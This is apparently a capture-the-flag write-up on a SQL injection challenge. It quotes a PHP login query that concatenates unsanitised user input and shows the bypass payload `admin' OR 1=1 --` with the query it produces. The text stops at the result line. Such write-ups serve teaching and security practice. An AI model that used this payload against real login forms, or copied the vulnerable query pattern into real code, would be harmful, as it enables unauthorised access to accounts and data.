

# SQL Injection

## Exploration

We started by investigating the index.php file that was provided to us by the CTF platform.

SQLite3 is the used database engine and the `flag.txt` file is included when a user successfully logs in.

The login query is as follows:

```php
    $username = $_POST['username'];
    $password = $_POST['password'];

    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

As we can see, user input's are not sanitized.

## Attack

All we need to do is make sure that the `WHERE` condition is true.

We can do this by inputting `admin' OR 1=1 --` so that the username condition is always true (`1=1`) and then comment the password condition (`--`). We also need to write a random input for the password because it is a required input (We wrote `1` as a password).

The executed query would look like this:

```php
    $username = $_POST['username']; ## admin' OR 1=1 --
    $password = $_POST['password']; ## 1

    $query = "SELECT username FROM user WHERE username = 'admin' OR 1=1 --' AND password = '1';
```

The result of these inputs:

